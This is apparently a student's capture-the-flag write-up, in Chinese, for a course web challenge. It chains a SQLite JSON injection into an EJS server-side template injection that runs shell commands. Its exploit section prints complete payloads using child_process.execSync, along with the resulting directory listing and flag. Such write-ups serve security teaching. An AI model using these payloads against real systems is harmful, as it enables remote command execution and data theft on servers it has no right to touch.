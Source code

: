 ```yaml
---
title: Simple Web 0x42(2023 HW - Double Injection - FLAG2)
tags: [eductf, CTF, Web]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web 0x42(2023 HW - Double Injection - FLAG2)

## Background
Node JS ejs SSTI

## Source code
呈上題

## Recon
這一題想了很久，因為我沒有跟影片，想說應該都是跟去年差不多或是在臺科的網頁安全一樣，但其實相關的payload就是在講義上，花了一整天寫的我be like:
![](https://memeprod.ap-south-1.linodeobjects.com/user-template/7266c8627075418a7979b79481bf0f84.png)
基本上就是連接前一題的思緒，既然我們知道admin的password也就是FLAG1，那麼我們就可以用前一題的payload:
```!
admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- #
```
後面搭配簡單的XSS也是可以通的，原本想說可以利用XSS達到RCE，但就我之前和Kaibro的詢問，XSS應該沒有這麼powerful，所以我就往SSTI或command injection下手，後來經過@cs-otaku的提點才知道ejs有一個洞，也是上課有提到的SSTI控到RCE，當時看的文章是Huli大寫的，內容詳細說明了為甚麼會有這個洞以及該如何構造攻擊的payload，不過整體更複雜也算是需要客製化的題目才需要了解這麼多，這一題算是只要取得經典的payload就可以攻克，如果想要用動態看他跑得怎麼樣，可以用web storm跟，想知道整體的動態流程可以看[之前寫的文章](https://hackmd.io/@SBK6401/HkgkDNsPp)

## Exploit - Ejs SSTI RCE
* Payload 1:
    * Username: 
        ```!
        admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- # <%= global.process.mainModule.require("child_process").execSync("ls -al /").toString() %>
        ```
    * Password: `FLAG{sqlite_js0n_inject!on}`
    * Result:
        ```
        total	76	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	.	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	..	
        -rwxr-xr-x	1	root	root	0		Dec	18	18:54	.dockerenv	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	bin	
        drwxr-xr-x	5	root	root	340		Dec	18	18:54	dev	
        drwxr-xr-x	1	root	root	4096	Dec	18	18:54	etc	
        -rw-r--r--	1	root	root	28		Dec	18	17:15	flag1.txt	
        -rw-r--r--	1	root	root	23		Dec	18	17:15	flag2-1PRmDsTXoo3uPCdq.txt	
        drwxr-xr-x	1	root	root	4096	Dec	18	17:15	home	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	lib	
        drwxr-xr-x	5	root	root	4096	Dec	7	09:43	media	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	mnt	
        drwxr-xr-x	1	root	root	4096	Dec	11	18:36	opt	
        dr-xr-xr-x	497	root	root	0		Dec	18	18:54	proc	
        drwx------	1	root	root	4096	Dec	11	18:36	root	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	run	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	sbin	
        drwxr-xr-x	2	root	root	4096	Dec	7	09:43	srv	
        dr-xr-xr-x	13	root	root	0		Dec	18	18:54	sys	
        drwxrwxrwt	1	root	root	4096	Dec	22	17:16	tmp	
        drwxr-xr-x	1	root	root	4096	Dec	18	13:27	usr	
        drwxr-xr-x	12	root	root	4096	Dec	7	09:43	var	
        ```
* Payload 2:
    * Username: 
        ```!
        admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- # <%= global.process.mainModule.require("child_process").execSync("cat /flag2-1PRmDsTXoo3uPCdq.txt").toString() %>
        ```
    * Password: `FLAG{sqlite_js0n_inject!on}`
    * Result: `FLAG{ezzzzz_sqli2ssti}`

Flag: `FLAG{ezzzzz_sqli2ssti}`

## 補充: How to debug it?
這邊示範如何用vscode debug這個project
1. 可以先看[這個文章](https://hackmd.io/@SBK6401/HkgkDNsPp)準備一些前置作業
2. 在文章中有提到，docker幫忙做的事情，現在要自己完成
    ```bash
    $ sudo touch /flag1.txt ; sudo chmod 777 /flag1.txt ; sudo echo "test" > /flag1.txt
    $ sudo node init-db.js ; sudo chmod 444 /etc/db.sqlite3
    ```
3. 接著就可以開始debug app.js了

## Reference
[CTF 中的 EJS 漏洞筆記](https://blog.huli.tw/2023/06/22/ejs-render-vulnerability-ctf/?ref=blog.splitline.tw)
[AIS3-EOF-CTF-2019-Quals - echo WP](https://github.com/CykuTW/My-CTF-Challenges/tree/master/AIS3-EOF-CTF-2019-Quals/echo)
[ejs RCE CVE-2022-29078 bypass](https://inhann.top/2023/03/26/ejs/)